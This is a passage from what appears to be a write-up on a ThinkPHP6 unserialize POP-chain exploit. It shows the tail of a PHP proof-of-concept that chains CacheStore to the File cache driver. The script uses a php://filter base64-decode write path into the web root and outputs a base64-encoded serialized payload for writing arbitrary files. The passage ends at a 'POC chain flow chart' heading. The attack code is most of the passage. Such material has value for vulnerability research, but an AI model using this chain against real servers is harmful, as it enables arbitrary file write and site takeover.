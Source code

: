 ```php
        protected $options = ["serialize"=>["trim"],"expire"=>1,"prefix"=>false,"hash_type"=>"md5","cache_subdir"=>false,"path"=>"php://filter/write=convert.base64-decode/resource=C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/","data_compress"=>0];
    }
}

namespace think\cache\driver {
    use think\cache\Driver;
    class File extends Driver{}
}

namespace {
    $file = new think\cache\driver\File();
    $cache = new think\filesystem\CacheStore($file);
    echo base64_encode(serialize($cache));
}
?>
```

<img src="./images/tp6-pop-2-11.png" alt="">

#### POC chain flow chart
